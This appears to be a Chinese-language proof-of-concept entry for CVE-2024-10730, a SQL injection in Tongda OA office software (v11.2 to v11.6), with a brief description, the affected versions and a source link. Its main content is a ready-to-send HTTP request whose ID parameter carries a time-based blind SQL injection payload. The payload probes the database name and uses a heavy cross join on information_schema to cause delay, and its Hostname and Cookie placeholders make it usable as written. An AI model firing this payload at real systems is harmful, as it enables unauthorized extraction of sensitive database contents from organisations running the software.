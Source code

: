 # CVE-2024-10730

>通达OA是一款协同办公自动化软件，由北京通达信科科技有限公司自主研发，为各行业不同规模的众多用户提供信息化管理能力。

## 来源

[https://github.com/LvZCh/td/issues/15](https://github.com/LvZCh/td/issues/15)

## 简介

通达OA中存在SQL注入漏洞，攻击者通过该漏洞可以获取数据库中的敏感信息。

## 影响范围

-   v11.2 <= 通达OA <= v11.6

## 漏洞类型

SQL注入

## POC

```http
GET /pda/appcenter/web_show.php?ID=1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: {{Cookie}}
Connection: close
```




